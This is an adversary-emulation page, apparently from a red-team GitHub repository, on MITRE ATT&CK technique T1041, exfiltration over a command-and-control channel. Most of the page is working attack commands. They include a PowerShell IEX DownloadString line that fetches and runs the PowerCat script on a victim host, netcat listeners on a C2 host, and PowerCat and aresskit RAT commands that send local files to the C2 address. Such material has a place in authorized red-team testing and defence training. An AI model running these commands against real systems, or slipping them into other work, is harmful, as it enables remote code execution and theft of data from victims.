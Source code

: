 # Exfiltration Over Command and Control Channel

---
* **ID**: T1041
* **Source**: <https://attack.mitre.org/techniques/T1041/>
---

# Details

## Using PowerCat
* Load PowerCat in command line on victim host:
```
powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
* Start a listener on C2 host:
```
nc -lvvp <port-of-C2> > out.file
```
* Transfer local files to remote C2 host using `PowerCat`:
```
powercat -c <ip-of-C2> -p <port-of-C2> -i <path-of-local-files>
```

## Using RAT
### Using customized Aresskit
* [Deploy](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md) customized `aresskit` to victim host
* Transfer local files to C2 host:
  * Start a listener on C2 host:
  ```
  nc -lvvp <port_of_C2> > out.file
  ```
  * Transfer local files to remote host using `aresskit`:
  ```
  aresskit> FileHandler::uploadFileNew <path_of_local_file> <ip_of_C2> <port_of_C2>
  ```

# References

* <https://github.com/besimorhino/powercat>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md>
